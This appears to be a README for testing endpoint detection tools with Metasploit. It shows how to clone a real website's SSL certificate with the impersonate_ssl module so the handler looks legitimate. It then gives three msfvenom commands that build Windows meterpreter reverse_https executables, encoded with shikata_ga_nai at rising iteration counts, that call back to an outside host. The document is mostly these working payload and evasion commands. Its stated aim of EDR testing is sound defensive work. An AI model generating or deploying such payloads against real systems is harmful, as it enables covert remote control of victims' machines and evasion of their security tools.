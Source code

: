 # Inital Setup for MSF Testing

Change the default metasploit SSL cert:

```
sudo msfconsole

use auxiliary/gather/impersonate_ssl 
set RHOST example.com

run
```

Example output:
![output](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/edr1.png "Command Output")

Take the .pem file and use for setting the SSL cert in the msf.rc file.

Change:
```
set HANDLERSSLCERT /root/attack.crt
```

To your new cert you collected:
```
set HANDLERSSLCERT /root/.msf4/loot/20210526091350_default_93.184.216.34_93.184.216.34_pe_809138.pem
```

## Payload Generation

Create 3 msfvenom payloads

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 1 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test.exe
```

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 20 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test2.exe
```

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 30 lport=8443 lhost=1.2.3.4 -b "\x00\xff" -f exe -o test3.exe
```

The command shoudl complete and output 3 testing executables. For the high interation payloads you may recieve an error as the paylod errors during the interation process, just rerun the command until you get a successful run.

![output payload 1](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr2.png "Payload 1")

Example of failed run for payload 3:

![output payload 3 error](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr3.png "Payload 3 Error")

Example of successful run for payload 3:

![output payload 3 success](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr4.png "Payload 3 Success")
